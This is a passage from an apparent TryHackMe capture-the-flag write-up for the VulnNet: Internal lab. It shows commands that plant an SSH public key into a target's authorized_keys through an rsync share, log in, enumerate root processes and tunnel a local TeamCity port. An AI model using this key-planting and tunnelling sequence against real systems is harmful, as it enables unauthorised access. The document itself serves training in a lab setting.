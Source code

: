 Once the key was created, I uploaded the public key to the `authorized_keys` file on the system, allowing me to connect via SSH and gained initial access:
```bash
$ rsync -av id_rsa.pub rsync://rsync-connect@10.10.85.213/files/sys-internal/.ssh/authorized_keys
  Password: 
  sending incremental file list
  id_rsa.pub

  sent 670 bytes  received 35 bytes  470.00 bytes/sec
  total size is 563  speedup is 0.80
$ ssh -i id_rsa sys-internal@10.10.85.213
```

## Privilege Escalation

While enumerating the system to escalate my privileges, I discoverd an interesting service: a TeamCity instance listening on port 8111. Since I had SSH access to the machine, I tunneled port 8111 and accessed the website.
```bash
$ ps auxw | grep "root"
  root       563  0.0  0.0   4628   680 ?        S    14:14   0:00 sh teamcity-server.sh _start_internal
$ ss -tlpn
[...]
  LISTEN             0                   100                                [::ffff:127.0.0.1]:8111                                         *:*
[...]
$ ssh -i id_rsa sys-internal@10.10.85.213 -L 8111:127.0.0.1:8111
```

![TeamCity Login](/assets/img/tryhackme/Vulnnetinternal/thm_vulnnetinternal_1.jpg)
